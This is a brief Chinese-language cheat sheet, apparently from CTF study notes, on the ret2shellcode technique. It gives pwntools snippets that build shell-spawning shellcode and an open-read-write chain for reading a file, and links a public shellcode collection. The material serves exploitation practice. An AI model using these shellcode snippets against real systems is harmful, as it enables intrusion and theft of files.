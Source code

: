 ```yaml
---
title: ret2shellcode
category: ROP
---
```


### 生成 shellcode

- 设置架构

```python
context.arch = 'amd64'
```

- 生成 shellcode

```python
shellcode = asm(shellcraft.sh())
```

### ORW

```python
shellcode  = shellcraft.amd64.linux.open('PATH')
shellcode += shellcraft.amd64.linux.read('rax', 'rsp', 0x30)
shellcode += shellcraft.amd64.linux.write(1 , 'rsp' , 0x30)
shellcode  = asm(shellcode)
```

### 相关链接

- http://shell-storm.org/shellcode/ 